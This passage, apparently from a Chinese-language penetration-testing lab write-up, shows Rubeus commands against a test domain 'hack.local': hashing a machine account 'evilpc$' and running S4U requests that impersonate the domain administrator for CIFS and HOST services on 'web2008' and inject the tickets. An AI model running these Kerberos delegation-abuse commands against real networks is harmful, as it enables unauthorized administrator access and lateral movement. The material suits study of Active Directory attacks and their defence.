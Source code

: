 ![img](imgs/2d9bf118-abaa-4b8d-9881-f820f96b5d2b.png)

或者可以尝试用Rubeus生成票据，但是本地失败了。

计算域机器evilpc$的hash

 

```
Rubeus.exe hash /user:evilpc$ /password:123456 /domain:hack.local
```

![img](imgs/f80b6fdf-3128-407b-b2f7-7df3ccf91c70.png)

 

```
Rubeus.exe s4u /user:evilpc$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/web2008 /ptt
Rubeus.exe s4u /user:evilpc$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:host/web2008 /ptt
```
